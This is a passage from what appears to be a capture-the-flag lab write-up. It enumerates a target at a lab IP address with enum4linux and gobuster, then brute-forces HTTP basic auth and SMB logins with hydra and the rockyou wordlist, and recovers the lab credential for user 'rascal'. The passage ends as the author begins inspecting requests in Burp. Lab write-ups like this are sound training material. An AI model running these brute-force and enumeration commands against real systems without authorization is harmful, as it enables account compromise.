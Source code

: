 ```sh
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)

 ===============================( Getting printer info for 10.10.227.190 )===============================

No printers returned.


enum4linux complete on Tue Jul 12 22:37:25 2022

```

so we have 2 users:
`fox` and `rascal`
checking for directories and file swe can access:
```sh
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.227.190/ -t 100 --no-error -b 401,403,404
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u http://10.10.227.190/ -t 100 --no-error -b 401,403,404
```

Mehh, nothing

LASTTTTTTTT RESORRRRRTTTTTTTTTTTTTTTTTTTT
 
bruteforcing http basic auth:
```sh
hydra -l admin -P /usr/share/dict/rockyou.txt -s 80 -f 10.10.227.190 http-get -t 64
hydra -l fox -P /usr/share/dict/rockyou.txt -s 80 -f 10.10.227.190 http-get -t 64
hydra -l rascal -P /usr/share/dict/rockyou.txt -s 80 -f 10.10.227.190 http-get -t 64 -v
```

bruteforcing smb : 
```sh
hydra -l fox -P /usr/share/dict/rockyou.txt 10.10.227.190 smb
```

huhhh:
![](/assets/img/thm/yotf/5.png)

login: `rascal`   password: `bling`

So now we get a webpage with the following results for blank search:
![](/assets/img/thm/yotf/6.png)

Analyzing responses after capturing the request in burp.
